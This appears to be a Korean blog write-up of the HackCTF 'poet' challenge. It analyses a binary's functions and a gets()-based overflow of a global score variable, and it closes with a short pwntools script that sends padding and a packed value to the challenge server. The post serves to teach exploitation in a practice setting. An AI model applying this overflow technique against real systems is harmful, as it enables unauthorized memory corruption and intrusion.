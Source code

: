 ```yaml
---
layout: post
title:  "HacCTF poet write-up"
date:   2020-01-10 19:45:55
image:  hackctf_poet.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled.png)  
NX 비트가 걸려있다.  따라서 메모리 영역의 쓰기 권한이 없다
<br>
 
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%201.png)  
프로그램을 실행시키면 다음과 같은 문구가 나온다  
<br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%202.png)  
멀 입력하라고 나온다. 문제로 봤을때 1000000점을 획득해야 되는 것 같다
- **main**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%203.png)

- **get_poem**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%204.png)

<br>
메인 함수를 보면 while문 안에 get_poem(), get_author(), rate_poem() 함수가 있다.  
<br><br>
get_poem 함수에서 처음 입력을 받게 되고, poem 이라는 변수에 저장을 하게 된다. poem 변수는 전역변수인 듯 하다


- **rate_poem()**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%205.png)

- **<et_author**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%206.png)


get_author 함수에서 두번째로 입력을 받는다. unk_6024A0 이라는 변수에 입력을 받는데, 이역시 전역변수이다

rate_poem() 함수에서 점수를 계산하는 로직이 존재하는데, 일정 조건에 맞아야지 dwor_6024E0 이라는 변수에 100씩 저장하게 된다. 이 변수 역시 전역 변수이고 메인문에서 1,000,000 와 비교하는 비교대상이다.

따라서 dwor_6024E0  변수 값을 알맞게 조정해주면 될 것이다. 그래야 while을 탈출하여 reward 함수가 실행되게 될것이고 그곳에서 flag를 확인 가능하다  

<br><br>

### 2. 접근방법

느낌상 해당 조건문에 맞게 하나씩 값을 노가다로 넣는 것을 아닐 것이고, gets 함수의 bof를 이용하여 조건에 맞게 수정해주면된다

- 필요 값들
    1. **dwor_6024E0**  : 비교 대상  
        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%207.png)

    2. **unk_6024A0 :** 입력한 값이 들어가는 곳  
        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%208.png)
        
<br>
따라서 unk_6024A0에서 bof를 이용하여  dwor_6024E0 값을 변경하면 된다  
두 주소의 차이는 64이기때문에, "A"*64+1,000,000 이렇게 입력해주면 되는 간단한 문제이다
<br><br><br><br>


### 3. 풀이

최종 익스 코드는 다음과 같다
```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3012)
#p = process("./poet")
#gdb.attach(p)

p.recvuntil("> ")

payload = "A"*10

p.sendline(payload)

p.recvuntil("> ")

payload2 = "B"*64
payload2 += p64(1000000)

p.sendline(payload2)

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

처음에 strcpy 함수가 보여서 이를 이용하려고 했으나, 복사하려는 값의 배열크기가 충분하지 않아서 실패하였다. 문제와 변수 크기 이런것을 주의깊게 보면서 풀어야 할 것 같다